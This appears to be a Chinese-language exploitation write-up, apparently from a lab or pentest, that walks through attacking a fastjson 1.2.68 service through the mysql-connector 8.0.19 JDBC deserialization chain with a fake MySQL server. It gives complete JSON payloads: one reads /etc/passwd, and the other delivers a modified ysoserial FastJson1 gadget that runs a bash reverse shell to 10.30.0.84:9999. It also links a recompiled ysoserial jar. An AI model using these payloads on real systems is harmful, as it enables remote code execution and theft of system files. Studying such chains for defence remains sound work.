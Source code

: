 首先判断fastjson版本，1.2.68

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361708315-5641ad48-7545-46d7-8836-8aac4e7122db.png)

看到在这个大版本下，首先的思路肯定是考虑文件写操作，就需要判断是否为JDK11或者存在commons-io等其他文件写入的依赖，但是该环境下都是不存在的。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693361898043-07523d31-a2f9-4f7e-8b6c-e907a062660d.png)

除了文件写操作，还有一个利用更加简单且直接rce的方法：配合Mysql-JDBC反序列化打fastjson。

要求环境中存在JDBC的依赖，且对版本的要求也挺严格。 Mysql-JDBC在5、6、8下都存在相应的利用，所以就需要探测具体是什么版本。详细利用参考：[Fastjson全版本检测及利用-Poc](Fastjson全版本检测及利用-Poc.md#mysql-jdbc反序列化)

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362502101-139f1c17-3dfc-464f-af32-6e35f25761fe.png)

显然这里使用的是mysql-connect-8.x

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362513255-38abb596-43a1-4003-8253-8a61e9c2c013.png)

可是对于mysql-connect的版本为8下限制条件很大，只有一个版本可用：8.0.19

恰好环境是使用的8.0.19:

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693362734906-ce1f0b9f-ea59-437e-a1e1-67a02325259c.png)

那就好说了，先启动mysql-fake-server,用这个工具：https://github.com/fnmsd/MySQL_Fake_Server

`python3 server.py`启动mysql-fake-server：

先读文件测试漏洞是否可行：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "fileread_/etc/passwd",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

成功！看来是可用的

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693363092287-d7b4a218-c63d-442a-9ac3-5b530f5ac1de.png)

后面就是反序列化了。

反序列化的话因为在之前说过，fastjson在全版本都存在原生反序列化，且环境依赖中并不存在其他的组件，看来只能配合原生反序列化了。

这里的话因为mysql-fake-server调用反序列化模块的原理是需要我们传入ysoserial工具然后执行命令获取数据并发送，但是在本身的ysoserial工具中并没有加入fastjson这条链的payload，所以需要在ysoserial中加入fastjson这条链。

这里是我添加FastJson1链后重新编译的ysoserial： [ysoserial-0.0.6-SNAPSHOT-all.jar](https://pan.baidu.com/s/1QQs0dH7I7UAz6r0BYzDGsg?pwd=7ji2)
当然也可以用其他师傅魔改后的ysoserial

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375003333-f6be335c-9239-49fc-9baa-08d856bf804e.png)

上传到与server.py同目录即可读取。

发送数据：

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "10.30.0.84"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "10.30.0.84",
                "user": "yso_FastJson1_bash -i >& /dev/tcp/10.30.0.84/9999 0>&1",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true",
                "allowLoadLocalInfile": "true"
            }
        }
    }
}
```

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693375349280-fcab912e-be6e-45dc-86cc-60a0be13a3ec.png)

反弹shell成功：

![image-20231021202442210](C:\Users\Hui\AppData\Roaming\Typora\typora-user-images\image-20231021202442210.png)
